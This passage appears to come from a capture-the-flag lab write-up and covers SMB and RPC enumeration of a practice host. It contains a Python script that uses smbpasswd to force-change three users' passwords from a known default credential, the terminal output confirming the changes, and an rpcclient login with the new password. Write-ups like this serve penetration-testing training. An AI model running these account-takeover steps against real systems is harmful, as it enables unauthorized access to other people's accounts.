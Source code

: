 We are indeed able to list all shares. There seems to be a printer installed, however checking out the shares no interesting files can be found.

```python
#!/usr/bin/env python3
import subprocess
from random import randint

password = b"Fabricorp01"

# Use smbpasswd to change the password of the user
def change_pw(username, old_pw, password):
    proc = subprocess.Popen([b"smbpasswd", b"-U", username, b"-r", b"10.10.10.193"], stdin=subprocess.PIPE)
    proc.communicate(input=old_pw + b"\n" + password + b'\n' + password + b'\n')

users = [b"tlavel",b"bhult",b"bnielson"]
old_pw = password
password = b"Chr0nOs!_" + bytes([randint(33,126)]) # Valid ascii range 33-126

print(f"[+] Changing to: {password.decode()}")
for user in users:
	change_pw(user,old_pw,password)
```

A quickly created a python script based on this [stackoverflow thread](https://stackoverflow.com/questions/19813376/change-an-user-password-on-samba-with-python) to change the password of each of the three user, because it seems like the password is required to change about every minute.

```bash
root@darkness:~# python3 changePw.py 
[+] Changed to: Chr0nOs_|
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel on 10.10.10.193.
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user bhult on 10.10.10.193.
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user bnielson on 10.10.10.193.
Redo?
```

After some enumeration it seems like smb does not hold any interesting information for us.

## RPC - Port 139

Let us enumerate RPC next.

```bash
root@darkness:~# rpcclient -U tlavel -r 10.10.10.193
Enter WORKGROUP\tlavel password: Chr0nOs_|
rpcclient $>
```
